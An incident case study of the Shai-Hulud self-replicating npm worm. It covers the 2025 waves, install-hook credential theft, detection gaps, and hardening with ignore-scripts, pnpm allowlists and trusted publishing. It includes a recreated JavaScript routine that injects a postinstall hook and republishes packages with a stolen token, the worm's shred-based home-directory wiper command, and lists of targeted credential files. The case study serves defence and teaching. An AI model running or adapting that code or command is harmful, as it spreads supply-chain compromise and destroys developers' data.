


# Case Study: Shai-Hulud and Self-Replicating Package Registry Worms

> [!summary] Scope
> Technical examination of the September 2025 Shai-Hulud self-propagating npm package worm and its November 2025 successor.
> Details how the malicious package exploited automatic lifecycle install hooks to harvest developer environment variables and registry publishing tokens, automatically backdooring and publishing new versions of up to 20 packages owned by each compromised maintainer (up to 100 in the 2.0 wave).
> Synthesizes defensive policies for disabling arbitrary execution during dependency installation and enforcing scoped, tokenless publishing.
> Analyzes the dynamics of rapid package infection across interconnected package ecosystems.

> [!summary] Claim:
> A self-replicating package registry worm transforms developer machines and CI/CD pipelines into autonomous propagation vectors.
> By abusing automatic lifecycle install hooks (`postinstall` in the first wave, `preinstall` in the second), the worm harvests ambient credentials from the process environment and local configuration files without requiring root privileges.
> When those ambient credentials include standing, unscoped package registry automation tokens, the infection loop closes: the worm programmatically discovers other packages maintained by the victim, injects itself into their release tarballs, increments their semantic versions, and publishes backdoored updates.
> Because modern dependency graphs are dense, highly transitive, and populated with permissive version constraints (`^` and `~`), a single compromised maintainer triggers a cascade that reached more than 500 packages within about two days in September 2025 (CISA).



## Incident Timeline

Dates and timestamps are recorded in Coordinated Universal Time (UTC) based on public disclosures from registry operators, threat intelligence research teams, and CISA advisories.

### Phase 1: Patient Zero and Initial Seeding (2025-09-14)

On 2025-09-14 at 17:58:50 UTC, an attacker published version `0.0.3` of the npm package `rxnt-authentication` under the publisher account `techsupportrxnt` (ReversingLabs; Socket's publish timeline agrees to the second).
This package is the first known compromised package, which ReversingLabs calls Patient Zero.
The exact nature of the initial compromise is not known (ReversingLabs); Unit 42 suggests it may have started with a credential-harvesting phishing campaign that spoofed npm and asked developers to "update" their MFA options.
The published package tarball contained a modified `package.json` that registered a `postinstall` script (`"postinstall": "node bundle.js"`) pointing to a bundled, minified JavaScript file named `bundle.js` of about 3.6 MB (StepSecurity, Socket, ReversingLabs).
Unlike standard malicious packages that merely exfiltrate data, `bundle.js` incorporated an autonomous propagation routine alongside its credential harvester.

### Phase 2: Autonomous Lateral Propagation and Major Library Infection (2025-09-14 to 2025-09-16)

When downstream developers and automated build pipelines installed or updated `rxnt-authentication` or related organizational packages, the `postinstall` hook executed.
The script harvested ambient registry tokens from `~/.npmrc` and environment variables.
Using the stolen credentials of each executing maintainer, the worm validated the token against the registry `/-/whoami` endpoint and then queried the npm registry search API (`/-/v1/search?text=maintainer:<username>&size=20`) to discover other packages belonging to the same maintainer account (StepSecurity).
The worm automatically downloaded the current tarball of each discovered package, injected its payload into `package.json`, bumped the patch version, and executed an automated `npm publish`.
The query passes `size=20`, which is also the search endpoint's default (maximum 250, per the npm Registry API document), and the worm did not paginate, so it processed up to 20 packages owned or co-maintained by each infected identity; Socket found that earlier worm versions iterated only 10.
Among the infected maintainer accounts was a contributor with publishing access to the widely used color-manipulation library `@ctrl/tinycolor`, which had over 2 million weekly downloads (StepSecurity).
On 2025-09-15, poisoned releases `4.1.1` (19:52:46 UTC) and `4.1.2` (20:13:43 UTC) of `@ctrl/tinycolor` were published to the public registry (npm registry `time` field).
Because `@ctrl/tinycolor` is pulled transitively by many frontend applications and build toolchains, each install of a poisoned version could compromise a new maintainer.
The worm also downloaded and ran a binary of TruffleHog to scan developer filesystems for secrets, targeting cloud infrastructure keys (AWS, Google Cloud Platform, Microsoft Azure), cloud metadata endpoints, and GitHub Personal Access Tokens (PATs) (StepSecurity, ReversingLabs).
Using the stolen GitHub PATs, the malware invoked the GitHub REST API to create public repositories named `Shai-Hulud` (description "Shai-Hulud Repository.") under the victims' GitHub accounts and committed the harvested secrets, double base64-encoded, to a file named `data.json` (ReversingLabs).

### Phase 3: Public Disclosure and Industry Containment (2025-09-15 to 2025-09-22)

GitHub states it was notified of the attack on 2025-09-14; StepSecurity and ReversingLabs detected and published on 2025-09-15, and Socket published its burst timeline on 2025-09-16, the day of the largest single burst (nearly 100 packages, including CrowdStrike packages, at 01:14 UTC).
In total the worm compromised more than 500 packages (CISA, GitHub, StepSecurity).
GitHub, which operates npm, documented this containment response on 2025-09-22:
1. Removing more than 500 compromised packages from the npm registry to prevent further propagation.
2. Blocking the upload of new packages containing the malware's indicators of compromise (IoCs), cutting off the self-replicating pattern.
3. Announcing a roadmap to deprecate legacy classic tokens, limit publishing tokens to short lifetimes, deprecate TOTP 2FA in favor of FIDO-based 2FA, and push maintainers to trusted publishing.
No public source checked gives an exact time at which the first wave stopped; the last bursts in Socket's 2025-09-16 timeline are around 11:00 UTC that day.

### Phase 4: Government Advisories and Forensic Triage (2025-09-23)

On 2025-09-23, the United States Cybersecurity and Infrastructure Security Agency (CISA) issued an alert titled "Widespread Supply Chain Compromise Impacting npm Ecosystem".
The advisory stated that the worm had compromised over 500 packages and that the malware exfiltrated credentials to an actor-controlled endpoint and to public `Shai-Hulud` repositories created through the GitHub `/user/repos` API.
CISA instructed organizations to review dependencies (including `package-lock.json` and `yarn.lock` and cached copies in artifact repositories), pin npm dependencies to known safe releases produced prior to 2025-09-16, immediately rotate all developer credentials, mandate phishing-resistant MFA, block outbound connections to `webhook.site`, and harden GitHub (remove unneeded Apps and OAuth apps, audit webhooks and secrets, enable branch protection, secret scanning, and Dependabot).

### Phase 5: The Second Wave: Bun Runtime Evasion and Destructive Fallbacks (2025-11-24)

Trojanized packages for a revised iteration were uploaded between 2025-11-21 and 2025-11-23 (Wiz and Aikido), and the community identified it on 2025-11-24 as "Shai-Hulud 2.0"; its exfiltration repositories carry the description "Sha1-Hulud: The Second Coming." (Unit 42, Datadog).
The updated payload added a `preinstall` script that runs `setup_bun.js`, which Datadog assesses as likely chosen to evade standard Node.js monitoring.
This script installs the standalone `bun` JavaScript runtime and uses it to execute the primary obfuscated payload, `bun_environment.js` (over 10 MB, per Unit 42).
The authors also introduced a destructive fallback: if the worm cannot establish any exfiltration channel (it cannot authenticate to GitHub, create a repository, or find GitHub or npm tokens), it overwrites and deletes every writable file the current user owns under `$HOME` with `shred` (Unit 42, Datadog).
The 2.0 wave backdoored 796 unique npm packages (Datadog), created over 25,000 exfiltration repositories across about 350 GitHub users (Wiz), backdoored up to 100 packages per stolen npm token, and registered infected machines as self-hosted GitHub Actions runners named `SHA1HULUD` for remote command execution (Datadog, Wiz).
Subsequent offshoots continued the family in 2026: "Mini Shai-Hulud" published 84 malicious versions across 42 `@tanstack/*` packages on 2026-05-11 through TanStack's own release pipeline, with cryptographically valid SLSA provenance (SLSA project), and CHAINDROP, identified on 2026-08-04, trojanized the `keyv` monorepo and self-propagated to more than 400 packages (Elastic Security Labs).

| Date and Time (UTC) | Event Summary | Affected Component or Actor | Primary Source |
|---|---|---|---|
| 2025-09-14 17:58:50 | Initial malicious package `rxnt-authentication@0.0.3` published with worm dropper | `techsupportrxnt` account, `rxnt-authentication` | ReversingLabs, Socket |
| 2025-09-14 20:29 to 21:03 | First large publish bursts (25+ and about 17 packages or versions) | Maintainers whose tokens were stolen | Socket |
| 2025-09-15 19:52:46 | Poisoned `@ctrl/tinycolor@4.1.1` published (`4.1.2` at 20:13:43) | `@ctrl/tinycolor`, transitive dependents | npm registry, StepSecurity |
| 2025-09-16 01:14 | Largest single burst, nearly 100 packages (CrowdStrike set) | CrowdStrike npm packages | Socket |
| 2025-09-22 | GitHub reports removal of 500+ packages and IoC upload blocking; announces token and 2FA roadmap | npm registry operations | GitHub |
| 2025-09-23 | CISA issues public alert on widespread npm ecosystem compromise | Global software supply chain | CISA Advisory |
| 2025-11-24 | Shai-Hulud 2.0 identified with Bun runtime (`setup_bun.js`) and destructive `$HOME` wiper; uploads began 2025-11-21 | Bun runtime, developer `$HOME` | Wiz, Datadog, Unit 42 |

## Mechanism Root Cause

The Shai-Hulud worm succeeded because of a structural architectural flaw in the standard package manager execution model: the automatic execution of arbitrary shell scripts with ambient credentials during dependency resolution.

### System Call and Child Process Execution Model

When a developer or continuous integration runner invokes `npm install` or `npm ci`, the npm CLI resolves the dependency tree and extracts package archives into `node_modules`.
After extraction, the package manager runs each package's lifecycle hook declarations from the `"scripts"` object; the npm docs state that for `npm ci` and `npm install` these "all run after the actual installation of modules into `node_modules`, in order":
- `preinstall`: Runs first, despite its name after the package files are already on disk.
- `install`: Runs next; if a package has a `binding.gyp` and no `install` or `preinstall` script, npm defaults it to `node-gyp rebuild` for native C/C++ compilation.
- `postinstall`: Runs after `install`.

Under the hood, npm invokes `@npmcli/run-script`, which hands the command to `@npmcli/promise-spawn`.
On POSIX platforms (Linux and macOS), that module runs `sh -c <command>` (the npm docs describe this as `/bin/sh`, configurable with `script-shell`) through Node's `child_process.spawn`, which calls libuv's `uv_spawn`.
In libuv's v1.x `src/unix/process.c` (as of 2026-11), `uv_spawn` uses `posix_spawn(3)` on macOS and on Linux with glibc 2.24 or later when a startup probe of `vfork`/`clone(CLONE_VM)` succeeds, and falls back to `fork(2)` followed by `execvp`/`execvpe` otherwise (always on OpenBSD); the Node release bundles a particular libuv, so the path depends on the Node version.
On Windows systems, it executes `%ComSpec%` (normally `cmd.exe`) with `/d /s /c <command>` (`@npmcli/promise-spawn` source).
Crucially, this child process is spawned with identical user privileges (`UID` and `GID`), full read and write access to the user's filesystem, unrestricted network socket creation capabilities, and complete inheritance of the calling process environment block (`environ`).
Neither Linux cgroups, seccomp filters, nor filesystem confinement (mount namespaces, chroot, or Landlock) are applied by default.
Consequently, any code declared in `preinstall` or `postinstall` runs with the full authority of the software engineer or CI/CD runner.

### Ambient Credential Harvesting Architecture

Upon execution, Shai-Hulud executed a multi-tier scanning routine to harvest ambient credentials from the environment and persistent disk:

1. **In-Memory Environment Inspection:**
   The script dumped `process.env` (StepSecurity); Socket names `GITHUB_TOKEN`, `NPM_TOKEN`, `AWS_ACCESS_KEY_ID`, and `AWS_SECRET_ACCESS_KEY` explicitly, and a full dump also captures variables such as:
   - `NPM_TOKEN` and `NODE_AUTH_TOKEN`: Long-lived publishing tokens used in automated CI/CD release workflows.
   - `GITHUB_TOKEN` and `GH_TOKEN`: GitHub personal access tokens or Actions runner tokens.
   - `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, and `AWS_SESSION_TOKEN`: Cloud infrastructure credentials.
   - `GOOGLE_APPLICATION_CREDENTIALS`: File paths pointing to service account private keys.
   - `AZURE_CLIENT_SECRET` and `ARM_CLIENT_SECRET`: Azure service principal secrets.
   It also probed cloud metadata endpoints, which can leak short-lived credentials inside cloud build agents, and enumerated AWS Secrets Manager values with any credentials it found (Socket, StepSecurity).

2. **Filesystem Configuration Traversal:**
   The worm read `~/.npmrc` (`os.homedir()`), which holds persistent authentication lines formatted as `//registry.npmjs.org/:_authToken=<token>` (StepSecurity).
   The analyses checked name no other targeted file reads; StepSecurity's example of a secret found by the scan is `~/.aws/credentials`.
   Because the scan covers the whole filesystem (next item), any plaintext credential file readable by the user is exposed, so a responder should treat these as in scope (this is a defensive checklist, not a finding about the worm's code):
   - `~/.git-credentials` and `~/.config/gh/hosts.yml`: Plaintext Git and GitHub CLI access tokens.
   - `~/.aws/credentials` and `~/.aws/config`: Static IAM access keys and assume-role configurations.
   - `~/.kube/config`: Cluster bearer tokens and client certificates.
   - `~/.ssh/id_rsa` and `~/.ssh/id_ed25519`: Private SSH keys used for Git access and remote server administration.

3. **Weaponized TruffleHog Execution:**
   To locate credentials stored in arbitrary project directories, the malware downloaded and executed TruffleHog, a legitimate scanner that detects more than 800 secret types, and also matched patterns such as `AKIA[0-9A-Z]{16}` for AWS keys (ReversingLabs, StepSecurity).
   StepSecurity's deobfuscation shows the module spawning `trufflehog filesystem / --json` through `child_process.exec` and parsing the output, so the scan root is `/`; the sources checked do not enumerate finer-grained targets such as shell history or `.env` files.

### Dual-Channel Exfiltration Subsystem

The worm implemented two distinct exfiltration pathways:

- **Public GitHub Repository Dumping:**
  If a valid GitHub Personal Access Token was harvested, the malware interacted directly with the GitHub REST API.
  It created a new public repository named `Shai-Hulud` through the `/user/repos` API (CISA) under the victim's account; the 2.0 wave instead used random repository names with the fixed description "Sha1-Hulud: The Second Coming." (Datadog).
  It then committed the stolen credentials, double base64-encoded, to `data.json` in that repository (ReversingLabs).
  This approach let the attacker collect credentials passively from public GitHub repositories, without an attacker-owned IP address that perimeter firewalls could block.

- **GitHub Actions Workflow Backdoor:**
  With a token holding `repo` and `workflow` scopes, the malware pushed a branch named `shai-hulud` with `.github/workflows/shai-hulud-workflow.yml` to repositories it could write; the workflow triggers on every push and sends `${{ toJSON(secrets) }}` to a hardcoded `webhook.site` URL (StepSecurity, ReversingLabs).
  It also made public `-migration` copies of the victim's private repositories with the description "Shai-Hulud Migration" (ReversingLabs, Socket).

### Autonomous Self-Replication Engine

The defining characteristic of Shai-Hulud was its self-propagation engine.
The worm contained an automated publication subroutine that performed the following steps:

```javascript
// Conceptual recreation of Shai-Hulud propagation routine
const https = require('https');
const fs = require('fs');
const { execSync } = require('child_process');

function propagate(npmToken, username) {
  // 1. Query npm Search API for packages maintained by this user (default page size: 20)
  const searchUrl = `https://registry.npmjs.org/-/v1/search?text=maintainer:${username}&size=20`;
  const options = { headers: { 'Authorization': `Bearer ${npmToken}` } };

  https.get(searchUrl, options, (res) => {
    let data = '';
    res.on('data', chunk => data += chunk);
    res.on('end', () => {
      const response = JSON.parse(data);
      const packages = response.objects.map(obj => obj.package.name);

      // 2. Loop through discovered packages (up to 20)
      for (const pkgName of packages) {
        try {
          // Download current package metadata and tarball
          const tmpDir = fs.mkdtempSync('/tmp/pkg-');
          execSync(`npm pack ${pkgName}`, { cwd: tmpDir });
          
          const tarball = fs.readdirSync(tmpDir).find(f => f.endsWith('.tgz'));
          execSync(`tar -xzf ${tarball}`, { cwd: tmpDir });
          
          // Modify package.json to bump version and insert malicious hook
          const pkgJsonPath = `${tmpDir}/package/package.json`;
          const pkgJson = JSON.parse(fs.readFileSync(pkgJsonPath, 'utf8'));
          
          const versionParts = pkgJson.version.split('.').map(Number);
          versionParts[2] += 1; // Bump patch version
          pkgJson.version = versionParts.join('.');
          
          if (!pkgJson.scripts) pkgJson.scripts = {};
          pkgJson.scripts.postinstall = 'node bundle.js'; // wave 2: preinstall: node setup_bun.js
          
          fs.writeFileSync(pkgJsonPath, JSON.stringify(pkgJson, null, 2));
          
          // Copy malicious payload into unpacked package
          fs.copyFileSync('./bundle.js', `${tmpDir}/package/bundle.js`);
          
          // Repack and publish to npm registry with victim token
          execSync(`npm publish ./package --_authToken="${npmToken}"`, { cwd: tmpDir });
        } catch (err) {
          // Continue to next package on failure
        }
      }
    });
  });
}
```

The script specifically queried `/-/v1/search?text=maintainer:<username>&size=20`.
In the npm registry search API, `size` dictates the page size (default 20, maximum 250).
Because the malware requested a batch size of 20 without implementing pagination loops, at most 20 packages per maintainer account were selected for automated poisoning; the 2.0 wave raised this to the first 100 search results (Datadog).
For each package:
1. The worm fetched the latest package tarball `.tgz` from `https://registry.npmjs.org/<package-name>`.
2. It extracted the tarball into a temporary directory using `tar`.
3. It created or replaced the package's `bundle.js` with its own copy and incremented the patch number; StepSecurity's deobfuscated code runs `npm version patch --force`.
4. It added a `postinstall` hook pointing to `node bundle.js` where one was missing (Socket).
5. It re-compressed the tarball using gzip and tar.
6. It published the trojanized version back to the official npm registry with `npm publish --access public --token <token>` (StepSecurity).

### Epidemiological Dynamics of Registry Worm Propagation

The rapid expansion of the Shai-Hulud worm can be analyzed using epidemiological network theory.
In classical epidemiology, the basic reproduction number ($R_0$) represents the average number of secondary infections produced by a single infected individual in a completely susceptible population:

$$R_0 = p \cdot k$$

In the context of the npm package registry:
- $k$ represents the average out-degree of package infection per compromised maintainer.
  Because the first Shai-Hulud wave was programmatically capped at 20 packages per API query, $k \le 20$ (and $k \le 100$ in the 2.0 wave).
- $p$ represents the probability that a poisoned package version is installed by another maintainer holding publish credentials before registry administrators revoke the token or remove the release.

In dense software ecosystems, $p$ is amplified by three distinct structural factors:
1. **The Bipartite Maintainer Graph:**
   The package ecosystem is structured as an undirected bipartite graph $G = (M, P, E)$, where $M$ is the set of maintainer accounts, $P$ is the set of packages, and an edge $(m, p) \in E$ indicates that maintainer $m$ holds publish rights for package $p$.
   Many prolific maintainers maintain dozens or hundreds of packages spanning completely unrelated functional categories (e.g., build tools, data parsers, UI styling, and networking).
   A compromise of a single maintainer bridging multiple domains allows the worm to cross boundaries between disjoint software clusters.

2. **The Transitive Downstream Multiplier:**
   Modern JavaScript applications depend on deeply nested dependency graphs.
   A single application commonly resolves hundreds of transitive packages, so its attack surface is the whole resolved tree rather than the handful of direct dependencies.
   A single top-level dependency compromise directly exposes all downstream developers to arbitrary code execution upon `npm install`.

3. **Permissive Semver Wildcard Resolution:**
   The default npm dependency specification uses caret ranges (`save-prefix` defaults to `^`, e.g. `^1.4.0`), allowing automatic installation of any minor or patch update up to, but not including, `2.0.0`.
   Whenever CI/CD pipelines run `npm install` without a frozen lockfile (or in projects where lockfiles are not checked into source control), the package manager automatically resolves the newly published malicious patch release (`1.4.1`).
   Consequently, if $p > 0.05$ (meaning a 5% chance that each poisoned package reaches an installer who holds npm publish rights for at least one other package), $R_0 > 1$, resulting in exponential infection growth across the registry.



### Shai-Hulud 2.0 and Runtime Evasion Mechanics

In the November 2025 variant, the threat actors modified the execution chain, likely to evade Node.js-focused monitoring (Datadog's assessment).
Shai-Hulud 2.0 introduced `setup_bun.js`, disguised as a helpful Bun installer (Unit 42).
The `preinstall` hook executed `node setup_bun.js`, which installed the `bun` runtime for the host.
The script then invoked the `bun` binary to execute `bun_environment.js`.
Moving from `postinstall` to `preinstall` also means the payload runs even when later install steps fail, which Wiz and Unit 42 describe as widening the blast radius.
Additionally, the payload implemented a destructive fallback: if it could neither exfiltrate nor replicate, it ran `find "$HOME" -type f -writable -user "$(id -un)" -print0 | xargs -0 -r shred -uvz -n 1` and then deleted empty directories (Datadog's deobfuscated code), destroying shell configuration, credentials, and Git repositories on the host machine.

## Detection Gap

Standard development pipelines, continuous integration gates, and software security tools completely failed to detect or arrest the initial propagation of Shai-Hulud.
The failure modes spanned multiple architectural layers:

### Execution Lifecycle Order

Unit testing suites (`npm test`, `jest`, `vitest`), integration test harnesses, and container verification checks execute strictly after the dependency resolution phase.
In standard CI/CD configurations (such as GitHub Actions or GitLab CI), the workflow defines sequential steps:
1. `npm ci` (or `npm install`)
2. `npm run lint`
3. `npm test`
4. `npm run build`

Because the worm resided inside an install lifecycle hook (`postinstall` in wave 1, `preinstall` in wave 2), the malicious payload executed during Step 1.
Before the test runner binary was even invoked or test assertions evaluated, the worm had already harvested local tokens, contacted the npm registry API, and published poisoned packages.

### Static Application Security Testing (SAST) and Repository Linters

Static analysis scanners (such as SonarQube, ESLint, Semgrep, and CodeQL) evaluate source files stored within the application's Git repository.
They do not inspect third-party code dynamically downloaded into `node_modules` during the build phase.
Even when SAST tools are configured to scan dependencies, they run as a post-installation build step.
Running a static analysis tool after running an un-sandboxed `npm install` is ineffective because the host environment is already compromised before the static scanner parses the AST.

### The Git-versus-Tarball Provenance Discrepancy

A fundamental blind spot in modern open-source consumption is the assumption that the code published to a package registry matches the code committed to the public Git repository.
In the Shai-Hulud incident, the malicious `bundle.js` and `postinstall` hook never entered the source history of `@ctrl/tinycolor` or the other compromised libraries.
No pull requests were submitted against the package source and no code reviews were triggered; the only Git writes were the worm's separate `shai-hulud` branches and workflow files in repositories its stolen GitHub tokens could reach (ReversingLabs).
The worm operated at the registry artifact layer, modifying an unpacked copy of the package tarball and pushing it directly to `registry.npmjs.org`.
Developers who audited the main branch history on GitHub observed clean source trees.
This discrepancy highlights the danger of relying on Git repository hygiene (such as OpenSSF Scorecard ratings) without cryptographically verifying published tarball provenance (see [[Drill-Supply-Chain-Detect-Tarball-vs-Git-Tag-Backdoor]]).

### Lockfile Misconceptions and Ineffective CI Configurations

Engineers frequently assume that lockfiles (`package-lock.json`, `yarn.lock`, `pnpm-lock.yaml`) provide absolute protection against supply chain tampering.
In practice, several common operational failures allowed Shai-Hulud to enter pipelines:
- **`npm install` vs `npm ci`:**
  Engineers often execute `npm install` in local development and continuous delivery pipelines.
  If `package.json` contains a range (e.g. `^1.4.0`) and the lockfile is absent or partially unpinned, `npm install` updates the lockfile and fetches the newest release.
- **Uncommitted Lockfiles in Libraries:**
  Open-source package maintainers frequently do not commit `package-lock.json` to their repositories, following historic guidance that libraries should let consumers resolve dependencies.
  Consequently, every maintainer build pulls the absolute latest matching patch versions from the registry.
- **New Dependency Additions:**
  When developers add a new library or utility via `npm install <name>`, the package manager immediately queries the registry for the latest version and executes its install scripts.

### Host Process Monitoring and EDR Blind Spots

Endpoint Detection and Response (EDR) agents rely on behavioural heuristics to detect anomalous activity.
However, in modern software development, legitimate packages routinely perform actions that mimic malware:
- Compiling native C++ bindings using `node-gyp` (spawning `make`, `gcc`, `clang`, and `python3`).
- Downloading platform-specific binaries or browsers in install scripts (e.g. `puppeteer` runs `postinstall: node install.mjs`; `esbuild` runs `postinstall: node install.js`, as of 2026-11).
- Interacting with the local filesystem to link binary wrappers into `node_modules/.bin`.

Because package installations are inherently noisy, a detection rule keyed on "install script spawns a shell and makes an outbound HTTPS request" would fire constantly on benign installs, which is why such rules are usually tuned down or scoped to specific indicators (a design observation, not a measured finding about any vendor).

### Registry Visibility and Synchronous Publishing

The npm registry historically processed `npm publish` requests synchronously with minimal pre-distribution gating.
When a client supplied a valid bearer token for a package, the registry accepted the tarball, updated metadata indices, and distributed the artifact to edge CDN nodes within seconds.
npm does not publish its internal malware-scanning or rate-limiting design; the observable outcome is that Socket recorded single bursts of nearly 100 poisoned packages within minutes, so no control that was in place stopped publication at that velocity.

## Remediation and Fix

Remediating a self-replicating package registry worm requires immediate incident triage followed by systemic configuration changes to eliminate arbitrary install-time execution.

### Emergency Incident Response Playbook

Organizations responding to a registry worm outbreak must execute the following containment protocol:

1. **Immediate Credential Invalidation:**
   - Revoke all npm granular access tokens and session tokens via the npm web interface or CLI (`npm token revoke <token-id>`); npm revoked all classic tokens on 2025-12-09 (GitHub changelog).
   - Revoke all GitHub Personal Access Tokens and active OAuth authorizations across development teams.
   - Rotate all cloud infrastructure keys (AWS IAM access keys, GCP service account keys, Azure client secrets) present on any developer machine or CI runner active during the incident window.

2. **Registry-Level Quarantine and Deprecation:**
   - Package maintainers must mark compromised releases as deprecated:
     ```bash
     npm deprecate @ctrl/tinycolor@4.1.1 "Compromised by Shai-Hulud worm; downgrade to 4.1.0 immediately"
     ```
   - For releases published within the unpublish window (under 72 hours on npm, and only if no other public package depends on it, per the npm unpublish policy), unpublish the backdoored versions:
     ```bash
     npm unpublish @ctrl/tinycolor@4.1.1 --force
     ```

3. **Lockfile Auditing and Downstream Triage:**
   - Scan all enterprise repositories for references to known compromised package versions:
     ```bash
     grep -rnE "@ctrl/tinycolor\": \"(4\.1\.1|4\.1\.2)" package-lock.json yarn.lock pnpm-lock.yaml
     ```
   - Pin dependencies to known good versions; CISA's cutoff is releases produced prior to 2025-09-16, and a pre-2025-09-14 cutoff is stricter because the first malicious publish was 2025-09-14 17:58:50 UTC (`@ctrl/tinycolor@4.1.0` dates from 2024-04-13):
     ```json
     {
       "overrides": {
         "@ctrl/tinycolor": "4.1.0"
       }
     }
     ```
   - Force re-generation of lockfiles using clean package caches.

### Disabling Arbitrary Lifecycle Scripts

The primary control to neutralize install-time registry worms is disabling automated script execution during dependency installation.

#### Global and Project npm Configuration

To globally prevent npm from executing `preinstall`, `install`, and `postinstall` scripts across all projects on a machine, set the `ignore-scripts` configuration option (default `false`):

```bash
# Set globally for the current developer or CI user
npm config set ignore-scripts true

# Or pass the flag explicitly during CI builds
npm ci --ignore-scripts
```

When `ignore-scripts` is set to `true`, npm downloads, verifies, and unpacks dependency tarballs into `node_modules`, but does not run the lifecycle scripts.
Malicious code declared in `preinstall` or `postinstall` remains inert on disk as unexecuted text.
Explicit commands such as `npm test` and `npm run <name>` still run their named script under `ignore-scripts`, but not its pre- and post-scripts (npm config docs).
As of 2026-11 (Both), npm 11 also records an `allowScripts` field in `package.json`, managed by `npm approve-scripts` and `npm deny-scripts`, but it is advisory: install scripts still run by default and npm only lists unreviewed packages, with blocking promised for a future release (npm docs).

#### Granular Build Script Allowlists with pnpm

Disabling all scripts globally can break legitimate packages that require install scripts (such as `bcrypt`, `canvas`, or `puppeteer`).
The `pnpm` package manager provides a granular mechanism; pnpm 10.0.0 (2025-01-07) introduced it as `pnpm.onlyBuiltDependencies` in `package.json` (pnpm 10.x only, Both):

```json
{
  "name": "enterprise-application",
  "version": "1.0.0",
  "dependencies": {
    "esbuild": "^0.25.0",
    "@ctrl/tinycolor": "4.1.0"
  },
  "pnpm": {
    "onlyBuiltDependencies": [
      "esbuild"
    ]
  }
}
```

Since pnpm v10.0.0, dependencies not on the allowlist are blocked from executing lifecycle scripts by default.
If a compromised package injects a `preinstall` script, pnpm skips it and reports the package as an ignored build.
Engineers can review and approve specific packages using:

```bash
pnpm approve-builds
```

Since pnpm v11.0.0 (2026-04-28), `onlyBuiltDependencies` and the other build-dependency settings are removed, pnpm no longer reads the `pnpm` field of `package.json`, and the allowlist lives in `pnpm-workspace.yaml` under the `allowBuilds` mapping, which `pnpm approve-builds` writes (as of 2026-11, pnpm 12.24, Both):

```yaml
allowBuilds:
  esbuild: true
  bcrypt: true
  "@ctrl/tinycolor": false
```

### Containerization and Network Sandboxing

To prevent secret scavenging and unauthorized outbound network communication during local builds, wrap dependency installations in an isolated container without network access:

```bash
# Two-stage build pattern: fetch dependencies with network, build without network
# Stage 1: Download and verify tarballs in isolated directory
docker run --rm -v $(pwd):/workspace -w /workspace node:22-bookworm-slim \
  npm ci --ignore-scripts

# Stage 2: Execute native build scripts in an airgapped sandbox with no network access
# Name the vetted packages; a bare `npm rebuild` runs every package's scripts
docker run --rm --network none -v $(pwd):/workspace -w /workspace node:22-bookworm-slim \
  npm rebuild bcrypt
```

By applying `--network none` during `npm rebuild`, any build script attempting to phone home or exfiltrate credentials to GitHub or external webhooks has only a loopback interface, so its outbound connections cannot succeed; the exact error a given script sees depends on its resolver and HTTP client, and this note does not run it.
The script can still read and damage the mounted `/workspace`, so mount nothing that holds credentials (for example a project `.npmrc` with a token).

## Architectural Lessons

The Shai-Hulud incident altered the software engineering industry's understanding of package registry security.
It demonstrated that package managers cannot be treated as passive archive fetchers; without strict sandboxing, they are distributed command-and-control networks.

### 1. The Deprecation of Static, Ambient Registry Tokens

Historically, open-source maintainers and enterprise release pipelines stored long-lived, account-level automation tokens in `~/.npmrc` or GitHub Actions repository secrets (`NPM_TOKEN`).
These tokens acted as "skeleton keys": possessing the token granted permanent, unscoped write authority across every package owned by that maintainer or organization.
The Shai-Hulud worm exposed this design as catastrophic.
npm responded by revoking all classic tokens on 2025-12-09, capping write-enabled granular tokens at 90 days, and issuing two-hour session tokens from `npm login` (GitHub changelog, 2025-12-09).
The industry standard has shifted decisively toward **Trusted Publishing** using OpenID Connect (OIDC).
Under Trusted Publishing (PyPI since April 2023, RubyGems since December 2023, crates.io and npm since July 2025, NuGet since September 2025, per GitHub):
1. No long-lived token is generated, stored, or configured.
2. During a release workflow in GitHub Actions, the runner requests a cryptographically signed OIDC JSON Web Token (JWT) from GitHub's token authority (`id-token: write`).
3. The npm CLI (11.5.1 or later, on Node 22.14.0 or later) exchanges this JWT with the registry during `npm publish`.
4. The registry verifies the cryptographic signature of the token against GitHub's public OIDC keys (`https://token.actions.githubusercontent.com`).
5. The registry validates that the repository owner, repository, and workflow filename (and environment, if configured) match the trusted publisher configuration for that specific package.
6. If the claims match, the registry issues a short-lived publish token specific to that workflow (npm docs call it "short-lived" and state no exact lifetime).

Because no static token exists on disk or in repository secrets, a worm executing in a developer's workstation or an ordinary CI test job finds zero publishing credentials to harvest.
The release job itself remains a target: Mini Shai-Hulud poisoned TanStack's GitHub Actions cache from a `pull_request_target` workflow and extracted the OIDC token from release-runner memory (SLSA project, 2026-05).

```yaml
# Hardened GitHub Actions release workflow utilizing npm Trusted Publishing (as of 2026-11)
name: Publish Package

on:
  push:
    tags:
      - 'v*'

jobs:
  release:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      id-token: write # Required to request the ephemeral OIDC JWT
